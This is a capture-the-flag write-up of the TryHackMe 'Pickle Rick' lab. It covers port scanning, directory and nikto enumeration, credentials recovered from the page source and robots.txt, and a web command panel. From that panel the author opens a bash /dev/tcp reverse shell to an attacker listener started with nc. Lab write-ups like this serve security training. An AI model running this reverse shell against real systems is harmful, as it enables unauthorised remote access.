 ```yaml
---
title: TryHackMe - PickleRick
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, rustscan, privesc, http, ssh, command_injection]
---
```


# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application:

After deploying the machine, I got this IP address: 10.10.103.97

First step I ran a port scan using rust scan then passed the results to nmap for further enumeration.

## Command:
```sh
rustscan -a 10.10.103.97 --ulimit 5000 -- -sV -sC -A 
```
## Results:
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 74:70:7d:9f:98:e4:cd:52:32:c0:ff:f5:36:e1:d0:ee (RSA)
| ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABgQC1Vs3KBBL61RwHQIuO7T3eipuIl9cCXfeu2r2xeYuOgO3nDc5Ne5Obe3x7
vLHFgmWB+H9XvTfF2V0RzTaMrwbY3kl5SOEyO06li5hsOUkbAX5C0SNy7JuY4LUmO5yMl5uDLIRTnUxiINoQvs73s3
FiW7dW+JSP/g45BIpjcXjmT/PnpJFXdRNFRLM/
Q7qSBBiV9ZzSJaGZ7YTV0eKoTxVzCPgakYFfW73t1vHpbzj8iwsF90evJcJpL+YwngAEs0LouGGYZn5HR7W3OWIGX-
nBGNIl7ckVee+1CpGesNT3Cbo7on1b0QIV7D5V0hBroixInxLkUc+3Htz+2+FfF1a5N31iBDMOcF+lawOjh2l/
7v6q52PKUcDiqMkTikJ5k63rXQM1rLXgmOyQqTFrJ9vDdmw78w6LnJl1li2DxPVkBTDZepLahueKwqw/
+mjuTy4USEO5+eYL1fVtP4mrexN+TeSB6XEZozHnmI9Wg+m8RCZtRjnp/YXLrUxRUGvhUOJk=
|   256 05:f9:06:09:4a:e7:72:4c:db:90:8d:f9:39:36:b0:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJYDUeKr/1OZ7U6+X/
d8gUozr2898+u24rcy3LtI+9DFPNDJao7i7d6bAfwLA8q87Iy2PwhvE10Shgd328+GwdI=
|   256 55:28:85:f3:62:63:e3:db:4b:ca:a8:59:76:24:6c:15 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGA6kp/0ZDDDylA9pNJK9A5y/aIMSOfvJYhS739xdVGi
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Rick is sup4r cool

```
We have two open ports that is ssh (22) and http (80).

ssh will need user login details that we don't have yet so we'll skip that and move on to HTTP (80).



# WEB ENUMERATION  
  
## To Do list 

- Visit the site  
- Look around for any useful details  
- View the source code  
- Visit robots.txt  
- Run gobuster  



## The site
![](/assets/img/Pickle_Rick/1.png)
From the content, I think I will have to use burp suite at some point.  
But let's continue and come back to it later on.


## Source code
![](/assets/img/Pickle_Rick/2.png)

Here I get a username that is good.
- Username: R1ckRul3s

## Robots.txt
![](/assets/img/Pickle_Rick/3.png)

Got this text but not sure what it is:  
- "Wubbalubbadubdub"

## Gobuster

## Command
```sh
gobuster dir -u http://10.10.103.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
The wordlist was taking some time and giving me lots of errors so I changed to ...../dirb/common.txt
![](/assets/img/Pickle_Rick/4.png)


## Run nikto scan


```sh
nikto -h 10.10.103.97
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.103.97
+ Target Hostname:    10.10.103.97
+ Target Port:        80
+ Start Time:         2024-06-21 15:22:25 (GMT3)
---------------------------------------------------------------------------
## /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/
Web/HTTP/Cookies

```
![](/assets/img/Pickle_Rick/5.png)

At least now I know what to do with the username and the other text from robots.txt:  
- username: R1ckRul3s  
- password: Wubbalubbadubdub  

Successful login  
![](/assets/img/Pickle_Rick/6.png)


Here we can execute commands.  
Before that, I want to try something.  
I want to get a reverse shell to my machine. Hope it works.  

Here is a bash reverse shell :  

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

Modified it to work with my IP:

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/1234 <&1'
```

Then made a nc listener on my attacker pc:

```sh
nc -lvp 1234
```

It worked. Now I have a shell....

The user has all root privs.  
# GO GET THE FLAGS!!!